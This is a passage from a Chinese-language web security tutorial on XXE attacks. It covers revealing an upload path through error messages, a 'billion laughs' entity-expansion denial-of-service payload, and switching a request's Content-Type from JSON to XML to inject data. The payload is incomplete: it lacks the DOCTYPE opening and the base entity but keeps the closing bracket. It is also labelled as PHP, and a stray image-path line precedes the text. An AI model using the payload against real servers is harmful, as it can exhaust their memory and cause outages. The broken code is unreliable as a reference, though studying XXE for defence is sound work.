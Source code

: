 如何找到上传的地址呢，使用一个不存在的文件就能报错显示路径了

![image.png](assets/1700812438-1501e56a7932dee8071dbf4173d2acc5.png)

具体利用方式还未想到。

## 1.8、DOS攻击

```php
<?xml version="1.0"?>

 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

## 1.9、JSON转换成XML攻击

通常，在Web应用中，客户端通过POST请求向服务器发送数据时，会使用Content-Type头来指明数据的格式，如application/json表示JSON格式，application/xml表示XML格式。

如果攻击者尝试将Content-Type头从合法的格式（如application/json）更改为其他格式（如application/xml），并且服务器未正确实施解析和验证机制，那么攻击者可能会成功地向服务器注入恶意数据。
